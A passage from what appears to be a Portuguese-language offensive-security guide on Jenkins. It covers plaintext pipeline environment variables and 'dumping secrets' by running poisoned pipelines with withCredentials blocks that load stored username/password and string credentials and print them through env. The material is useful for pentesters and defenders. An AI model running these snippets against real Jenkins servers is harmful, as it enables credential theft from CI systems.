 É possível declarar **variáveis de ambiente em texto claro** para todo o pipeline ou para estágios específicos. Essas variáveis de ambiente **não devem conter informações sensíveis**, mas um atacante sempre pode **verificar todas as configurações do pipeline/Jenkinsfiles**:
```bash
pipeline {
agent {label 'built-in'}
environment {
GENERIC_ENV_VAR = "Test pipeline ENV variables."
}

stages {
stage("Build") {
environment {
STAGE_ENV_VAR = "Test stage ENV variables."
}
steps {
```
### Dumping secrets

Para obter informações sobre como os segredos geralmente são tratados pelo Jenkins, confira as informações básicas:

{% content-ref url="basic-jenkins-information.md" %}
[basic-jenkins-information.md](basic-jenkins-information.md)
{% endcontent-ref %}

As credenciais podem ser **abrangidas por provedores globais** (`/credentials/`) ou por **projetos específicos** (`/job/<project-name>/configure`). Portanto, para exfiltrar todas elas, você precisa **comprometer pelo menos todos os projetos** que contêm segredos e executar pipelines customizados/envenenados.

Há outro problema: para obter um **segredo dentro do env** de um pipeline, você precisa **saber o nome e o tipo do segredo**. Por exemplo, se você tentar **carregar** um **segredo** do tipo **`usernamePassword`** como um **segredo** do tipo **`string`**, você receberá este **erro**:
```
ERROR: Credentials 'flag2' is of type 'Username with password' where 'org.jenkinsci.plugins.plaincredentials.StringCredentials' was expected
```
Aqui está a maneira de carregar alguns tipos comuns de segredos:
```bash
withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'USERNAME', passwordVariable: 'PASS')]) {
sh '''
env #Search for USERNAME and PASS
'''
}

withCredentials([string(credentialsId: 'flag1', variable: 'SECRET')]) {
sh '''
env #Search for SECRET
'''
}

withCredentials([usernameColonPassword(credentialsId: 'mylogin', variable: 'USERPASS')]) {
sh '''
env # Search for USERPASS
'''
}

# You can also load multiple env variables at once
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
env
'''
```